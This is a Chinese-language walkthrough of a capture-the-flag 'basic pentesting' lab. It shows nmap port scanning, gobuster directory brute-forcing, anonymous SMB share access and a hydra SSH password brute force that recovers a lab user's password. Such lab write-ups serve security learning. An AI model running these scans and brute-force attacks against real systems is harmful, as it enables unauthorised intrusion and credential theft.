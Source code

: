 # 基本渗透测试room

    在这些任务集中，您将了解以下内容：

    暴力破解
    哈希破解
    服务枚举
    Linux 枚举

这里的主要目标是尽可能多地学习。确保您使用OpenVPN配置文件连接到我们的网络。

部署机器并连接到我们的网络
查找计算机公开的服务

按照上面这句话，我们先使用nmap简单扫一圈

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nmap</font> <font color="#9755B3">-sS</font> 10.10.135.111
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-07 18:17 CST
Nmap scan report for 10.10.135.111 (10.10.135.111)
Host is up (0.23s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 3.07 seconds
</pre>

访问80端口的web，好像没东西，到8080端口看一下，有网页

#### 1.Web服务器上隐藏目录的名称是什么（输入不带/的名称）？

用gobuster和ffuf对着8080端口一顿扫，扫了两个多小时，字典换了好几个，都没扫出来。

突然想起来还有个80端口，然后换80端口，一下就扫出来了

    gobuster dir --url http://10.10.41.41:80/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

/development

是的,ip变了，扫到靶机都到期自动关机了

#### 2.用户名是什么？

提示我们smb找，尝试匿名用户登录smb

<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀kali</b></font><font color="#367BF0">)-[</font><b>/home/sugobet</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">smbclient</font> //10.10.41.41/Anonymous    
Password for [WORKGROUP\root]:
Try &quot;help&quot; to get a list of possible commands.
smb: \&gt; ls
  .                                   D        0  Fri Apr 20 01:31:20 2018
  ..                                  D        0  Fri Apr 20 01:13:06 2018
  staff.txt                           N      173  Fri Apr 20 01:29:55 2018

</pre>

将staff.txt 下载，打开（翻译）：

    向员工发布的公告：

    请不要将与工作无关的项目上传到此共享。我知道这一切都很有趣，但是
    错误就是这样发生的。（这也意味着你，jan！

    -凯

用户名为 jan, 然后用hydra爆jan的ssh密码

    hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.41.41 ssh -t 36

<pre>[<font color="#47D4B9"><b>22</b></font>][<font color="#47D4B9"><b>ssh</b></font>] host: <font color="#47D4B9"><b>10.10.31.12</b></font>   login: <font color="#47D4B9"><b>jan</b></font>   password: <font color="#47D4B9"><b>armando</b></font>
</pre>

是的，ip又变了，爆一半靶机关机了，爆破是最无聊的攻击


learning...
